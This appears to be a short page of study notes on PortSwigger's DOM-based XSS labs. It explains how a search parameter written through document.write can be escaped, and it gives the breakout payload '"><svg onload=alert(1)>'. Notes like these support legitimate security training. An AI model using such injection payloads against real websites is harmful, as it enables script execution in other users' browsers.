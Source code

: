 # DOM-based XSS

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://portswigger.net/web-security/cross-site-scripting/dom-based" %}

### Lab: [DOM XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based) in `document.write` sink using source `location.search`

We can see tha t the search input is treated as a img:

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

We now need to escape from this query, then onload:

```
"><svg onload=alert(1)>
```

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

### Lab: [DOM XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based) in `document.write` sink using source `location.search` inside a select element
